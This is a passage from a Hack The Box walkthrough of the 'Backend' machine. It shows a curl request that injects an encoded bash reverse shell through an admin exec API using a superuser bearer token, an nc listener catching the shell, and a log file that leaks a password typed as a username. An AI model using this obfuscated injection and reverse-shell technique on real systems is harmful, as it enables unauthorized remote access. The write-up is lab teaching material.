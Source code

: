 ![Backend](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/backend/9bf69a9682f74f8b97c519c889d1e562.png)

```
┌──(kali㉿kali)-[~/htb]
└─$ curl -X GET http://10.10.11.161/api/v1/admin/exec/%65%63%68%6f%20%2d%6e%20%59%6d%46%7a%61%43%41%67%4c%57%6b%67%49%44%34%6d%49%43%41%76%5a%47%56%32%4c%33%52%6a%63%43%38%78%4d%43%34%78%4d%43%34%78%4e%43%34%79%4c%7a%51%79%4e%44%49%67%49%43%41%77%50%69%59%78%49%43%41%67%20%7c%20%62%61%73%65%36%34%20%2d%64%20%7c%20%62%61%73%68 -H "Authorization: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjUwNzUzNjk2LCJpYXQiOjE2NTAwNjI0OTYsInN1YiI6IjEiLCJpc19zdXBlcnVzZXIiOnRydWUsImRlYnVnIjoidHJ1ZSIsImd1aWQiOiIzNmMyZTk0YS00MjcxLTQyNTktOTNiZi1jOTZhZDU5NDgyODQifQ.PKQzWOcfezwMeLYrNa01u391xYQ7kAeY9E7fknnfPDQ"

───────────────────────────────────────────────────────────────────────────────────────────────
                                                                                           
┌──(kali㉿kali)-[~/htb]
└─$ nc -lvnp 4242
listening on [any] 4242 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.161] 43962
bash: cannot set terminal process group (672): Inappropriate ioctl for device
bash: no job control in this shell
htb@Backend:~/uhc$ 
```

# Root
In the first directory, we get dropped into there is an `auth.log` and inside the file was what looks like a password. Sometimes users put their password into the username.
```
htb@Backend:~/uhc$ cat auth.log
cat auth.log
04/15/2022, 19:49:12 - Login Success for admin@htb.local
04/15/2022, 19:52:32 - Login Success for admin@htb.local
04/15/2022, 20:05:52 - Login Success for admin@htb.local
04/15/2022, 20:09:12 - Login Success for admin@htb.local
04/15/2022, 20:14:12 - Login Success for admin@htb.local
04/15/2022, 20:17:32 - Login Success for admin@htb.local
04/15/2022, 20:30:52 - Login Success for admin@htb.local
04/15/2022, 20:39:12 - Login Success for admin@htb.local
04/15/2022, 20:40:52 - Login Success for admin@htb.local
04/15/2022, 20:47:32 - Login Success for admin@htb.local
04/15/2022, 20:55:52 - Login Failure for Tr0ub4dor&3
04/15/2022, 20:57:27 - Login Success for admin@htb.local
04/15/2022, 20:57:32 - Login Success for admin@htb.local
04/15/2022, 20:57:52 - Login Success for admin@htb.local
04/15/2022, 20:59:12 - Login Success for admin@htb.local
04/15/2022, 21:04:12 - Login Success for admin@htb.local
04/15/2022, 21:10:52 - Login Success for admin@htb.local
04/15/2022, 21:15:46 - Login Success for zon@rocks.rocks
04/15/2022, 22:33:45 - Login Success for admin@htb.local
04/15/2022, 22:38:49 - Login Success for admin@htb.local
```
